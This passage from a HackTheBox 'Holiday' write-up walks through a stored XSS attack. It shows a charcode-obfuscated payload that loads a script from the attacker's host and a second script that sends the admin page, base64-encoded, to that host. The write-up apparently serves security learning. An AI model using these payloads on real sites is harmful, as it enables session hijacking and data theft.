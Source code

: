 ```js
<img src="/><script>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 39, 60, 115, 99, 114, 105, 112, 116, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 48, 47, 48, 120, 52, 114, 116, 51, 109, 105, 115, 46, 106, 115, 34, 62, 60, 47, 115, 99, 114, 105, 112, 116, 62, 39, 41, 59))</script>" />
```

We add the note and wait one minute

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:42:17.png)

And it reaches my box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:42:49.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:43:02.png)

We base64 decode the page from admin

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:45:44.png)

We open it on localhost and see that we have an admin tab now

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:46:23.png)

We create another js payload to get the admin page

```js
function getAdmin() {
	var req1=new XMLHttpRequest(); 
	req1.open('GET', '#admin' , true); 
	req1.onreadystatechange = function () { 
		if (req1.readyState === req1.DONE) {
			if (req1.status === 200) { 
				 var req2=new XMLHttpRequest(); 
				req2.open('GET', 'http://10.10.14.20:9090?xss=' + btoa(req1.responseText), true);
				req2.send(); 
				}
			}
		}; 
	req1.send();
}

getAdmin();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:32:18.png)

And we get the admin page

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:34:07.png)

What called my attention more was one hidden field with cookie value

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2007:34:44.png)
